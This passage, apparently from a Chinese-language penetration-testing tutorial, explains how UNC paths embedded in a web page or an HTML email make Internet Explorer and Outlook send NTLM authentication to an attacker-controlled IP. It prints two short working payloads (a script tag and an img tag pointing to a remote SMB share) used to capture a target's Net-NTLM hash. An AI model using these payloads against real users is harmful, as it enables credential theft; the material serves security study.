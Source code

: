 ### 5.浏览器

当浏览器访问的页面中含有 UNC 路径的话，浏览器在解析该页面时也会尝试请求该 UNC 地址，然后发起 NTLM 认证。

不同浏览器对于插入的不同格式的 UNC 路径有不同的结果。

如下是网页文件，插入的 UNC 格式为\10.211.55.15\test。

```
<!doctype html>
<html lang="en">
<head>
<meta charset="UTF-8">
</head>
<body>
</body>
<script src="\\10.211.55.2\test"></script>
</html>
```

这时用户使用 IE 浏览器访问该页面，如图所示：

![截图](2471dfc1f3ffe5c9d30777cd1f7b9442.png)

我们就能获取到目标用户 SMB 类型的 Net-NTLM Hash 了。

### 6.Outlook

Outlook 邮件支持发送 HTML 格式的邮件，于是我们可以发送带有如下 html payload 的邮件给指定用户。

```
<p>邮件发送测试...</p>
<img src="\\\\10.211.55.2\\test">
```

如图所示，可以看到目标用户 administrator 收到了恶意的邮件。

![截图](5bc652dcae56e881a4498ed624dad0d0.png)
